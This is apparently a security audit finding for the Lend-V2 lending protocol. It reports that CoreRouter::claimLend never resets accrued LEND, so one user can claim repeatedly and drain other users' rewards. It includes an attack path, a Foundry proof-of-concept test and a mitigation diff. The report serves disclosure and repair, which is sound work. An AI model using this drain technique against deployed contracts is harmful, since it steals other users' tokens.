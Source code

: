 Ambitious Shamrock Moth

High

# User will be able to claim LEND multiple times causing other users to be unable to claim their LEND

### Summary

Lack of state updates in `CoreRouter::claimLend` (to mark accrued LEND as claimed) will cause permanent loss of LEND tokens for lenders and borrowers as users will be able claim their LEND multiple times.

### Root Cause

In `CoreRouter::claimLend` on line [402](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L402), the contract transfers LEND tokens to the user. The problem is that the accrued LEND for the user is not set back to zero, and therefore they can call `claimLend` again and receive the LEND multiple times.

### Internal Pre-conditions

1. A minimum of two users have supplied collateral to the `CoreRouter`.
2. Non-zero amount of time/blocks has passed since the collateral was supplied so that interest has been earned.

### External Pre-conditions

None required

### Attack Path

1. Attacker calls `CoreRouter::claimLend` at a time when they have accrued a non-zero amount of LEND from the protocol (but not yet claimed).
2. Attacker calls `CoreRouter::claimLend` again (and can repeat this many times, until all LEND is drained from the `CoreRouter`.

### Impact

The attacker profits by withdrawing all LEND available to protocol users for claiming. Therefore the other users permanently lose their share of LEND tokens.

### PoC

Add a new test file under test/mocks folder with the below contests and run using `forge test --match-test test_claim_lend_2x --match-contract HGranoTest -vvv`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {Test, console2} from "forge-std/Test.sol";
import {Deploy} from "../../script/Deploy.s.sol";
import {HelperConfig} from "../../script/HelperConfig.s.sol";
import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {LendStorage} from "../../src/LayerZero/LendStorage.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
import {Lendtroller} from "../../src/Lendtroller.sol";
import {InterestRateModel} from "../../src/InterestRateModel.sol";
import {SimplePriceOracle} from "../../src/SimplePriceOracle.sol";
import {LTokenInterface} from "../../src/LTokenInterfaces.sol";
import {LToken} from "../../src/LToken.sol";
import "@layerzerolabs/lz-evm-oapp-v2/test/TestHelper.sol";
import "@layerzerolabs/lz-evm-protocol-v2/test/utils/LayerZeroTest.sol";

contract HGranoTest is LayerZeroTest {
    CoreRouter public coreRouter;
    LendStorage public lendStorage;
    Lendtroller public lendtroller;
    SimplePriceOracle public priceOracle;
    address[] public lTokens;
    address[] public supportedTokens;
    address public deployer;
    address public user1;
    address public user2;

    function setUp() public override {
        super.setUp();

        deployer = makeAddr("deployer");
        user1 = makeAddr("user1");
        user2 = makeAddr("user2");
        vm.deal(deployer, 1000 ether);
        vm.deal(user1, 1000 ether);
        vm.deal(user2, 1000 ether);

        // Deploy protocol
        Deploy deploy = new Deploy();
        (
            address priceOracleAddress,
            address lendtrollerAddress,
            ,
            address[] memory lTokenAddresses,
            ,
            address payable coreRouterAddress,
            address lendStorageAddress,
            ,
            address[] memory _supportedTokens
        ) = deploy.run(address(endpoint));

        // Store contract references
        coreRouter = CoreRouter(coreRouterAddress);
        lendStorage = LendStorage(lendStorageAddress);
        lendtroller = Lendtroller(lendtrollerAddress);
        priceOracle = SimplePriceOracle(priceOracleAddress);
        lTokens = lTokenAddresses;
        supportedTokens = _supportedTokens;

        // Set up initial prices
        for (uint256 i = 0; i < supportedTokens.length; i++) {
            priceOracle.setDirectPrice(supportedTokens[i], 1e18);
        }
    }

    function _supply(uint256 amount, address user) internal returns (address token, address lToken) {
        token = supportedTokens[0];
        lToken = lendStorage.underlyingTolToken(token);

        vm.startPrank(user);
        ERC20Mock(token).mint(user, amount);
        IERC20(token).approve(address(coreRouter), amount);
        coreRouter.supply(amount, token);
        vm.stopPrank();
    }

    function _borrow(address user, address token, uint256 amount) internal {
        vm.startPrank(user);
        ERC20Mock(token).mint(user, amount * 2); // Extra collateral
        IERC20(token).approve(address(coreRouter), amount * 2);
        coreRouter.supply(amount * 2, token); // Supply collateral first
        coreRouter.borrow(amount, token);
        vm.stopPrank();
    }

    function test_claim_lend_2x() public {
        // Supply tokens to start accruing LEND
        uint256 supplyAmount = 1000e18;
        (, address lToken) = _supply(supplyAmount, user1);
        _supply(supplyAmount, user2);

        address lend = lendtroller.getLendAddress();

        // Get initial LEND accrued
        uint256 initialLendAccrued = lendStorage.lendAccrued(user1);
        uint256 initialLendBalance = IERC20(lend).balanceOf(user1);
        emit log_named_uint("initialLendBalance", initialLendBalance);

        // Advance time and blocks
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Trigger LEND distribution
        vm.prank(user1);
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);
        coreRouter.claimLend(holders, lTokenArray, false, true);

        // Get final LEND accrued
        uint256 finalLendAccrued = lendStorage.lendAccrued(user1);

        // Verify LEND accrued increased
        assertGt(finalLendAccrued, initialLendAccrued, "LEND should accrue over time");
        emit log_named_uint("LEND balance after first call to `claimLend`", IERC20(lend).balanceOf(user1));

        vm.prank(user1);
        coreRouter.claimLend(holders, lTokenArray, false, true);
        emit log_named_uint("LEND balance after second call to `claimLend`", IERC20(lend).balanceOf(user1));

        // Assert the issue is present (user1 claims twice their share)
        assertEq(IERC20(lend).balanceOf(user1), finalLendAccrued * 2);

        // Now the other user cannot claim
        holders[0] = user2;
        vm.prank(user2);
        coreRouter.claimLend(holders, lTokenArray, false, true);

        // Asser the issue is present (user2 doesn't get any LEND)
        assertEq(IERC20(lend).balanceOf(user2), 0);
    }
}

```

### Mitigation

Apply the following changes to reset the lend accrued to zero upon successful LEND transfer to the user:

```diff
--- a/Lend-V2/src/LayerZero/CoreRouter.sol
+++ b/Lend-V2/src/LayerZero/CoreRouter.sol
@@ -399,7 +399,8 @@ contract CoreRouter is Ownable, ExponentialNoError {
         for (uint256 j = 0; j < holders.length;) {
             uint256 accrued = lendStorage.lendAccrued(holders[j]);
             if (accrued > 0) {
-                grantLendInternal(holders[j], accrued);
+                uint256 remainingAmount = grantLendInternal(holders[j], accrued);
+                lendStorage.updateLendAccrued(holders[j], remainingAmount);
             }
             unchecked {
                 ++j;
diff --git a/Lend-V2/src/LayerZero/LendStorage.sol b/Lend-V2/src/LayerZero/LendStorage.sol
index 551e39d..9c464fb 100644
--- a/Lend-V2/src/LayerZero/LendStorage.sol
+++ b/Lend-V2/src/LayerZero/LendStorage.sol
@@ -247,6 +247,10 @@ contract LendStorage is Ownable, ExponentialNoError {
         borrow.borrowIndex = _borrowIndex;
     }
 
+    function updateLendAccrued(address user, uint256 amount) external onlyAuthorized {
+        lendAccrued[user] = amount;
+    }
+
```